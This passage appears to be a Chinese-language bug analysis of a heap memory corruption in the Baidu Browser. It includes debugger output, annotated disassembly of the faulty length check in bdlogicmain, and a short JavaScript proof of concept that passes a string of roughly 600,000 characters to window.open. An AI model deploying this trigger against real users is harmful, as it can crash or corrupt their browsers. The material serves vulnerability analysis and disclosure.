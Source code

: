 ```
   +0x058 PointerKey       : 0x41414141
   +0x05c Interceptor      : 0x41414141
…………blabla 后面都是 0x41414141 
```

那为什么只会在这样的 PoC 中出现呢，普通的 window.open 为什么没有这类问题？`bp bdlogicmain+0x7490` 在函数开头下断，可以发现原因是百度浏览器使用了一个逻辑，也即<4096 的用栈上变量，如果长于 4096 字节，程序才会试图分配堆并对堆进行错误的写入操作。这个问题出现在新窗口的弹出中，必须是新小窗口才会出现，包括被广告拦截也会出现。

相关问题点：

```
636174e7 e874fcffff      call    bdlogicmain+0x7160 (63617160)  
;函数功能：判断是否要比 4096 长
636174ec 83c41c          add     esp,1Ch
636174ef 85c0            test    eax,eax
;eax==0 : 代表长于 4096 字节
636174f1 7413            je      bdlogicmain+0x7506 (63617506)

bdlogicmain+0x74f3:
636174f3 5e              pop     esi
636174f4 83c8ff          or      eax,0FFFFFFFFh
636174f7 5b              pop     ebx
636174f8 8b4dfc          mov     ecx,dword ptr [ebp-4]
636174fb 33cd            xor     ecx,ebp
636174fd e89cf82400      call    bdlogicmain!BrowserLogicInit+0x19783e (63866d9e)
63617502 8be5            mov     esp,ebp
63617504 5d              pop     ebp
63617505 c3              ret

bdlogicmain+0x7506:
63617506 8db570e2ffff    lea     esi,[ebp-1D90h]
6361750c 8d85fcefffff    lea     eax,[ebp-1004h]
63617512 e8d9f9ffff      call    bdlogicmain+0x6ef0 (63616ef0)
63617517 85c0            test    eax,eax
63617519 75d8            jne     bdlogicmain+0x74f3 (636174f3)
……blabla

bdlogicmain+0x7550: //长于 4096 字节时:
63617550 8bb56ce2ffff    mov     esi,dword ptr [ebp-1D94h]
63617556 56              push    esi
63617557 8d95fcefffff    lea     edx,[ebp-1004h]
6361755d 52              push    edx
6361755e 53              push    ebx
6361755f ff15c4f48963    call    dword ptr [bdlogicmain!BrowserLogicInit+0x1cff64 (6389f4c4)]
63617565 8b4dfc          mov     ecx,dword ptr [ebp-4] 
```

Simple PoC:

```
<script>
var s="A";
var i=1;
for(i=1;i<599559;i++)
s+="A";

alert(1);
window.open(s);

</script>

```
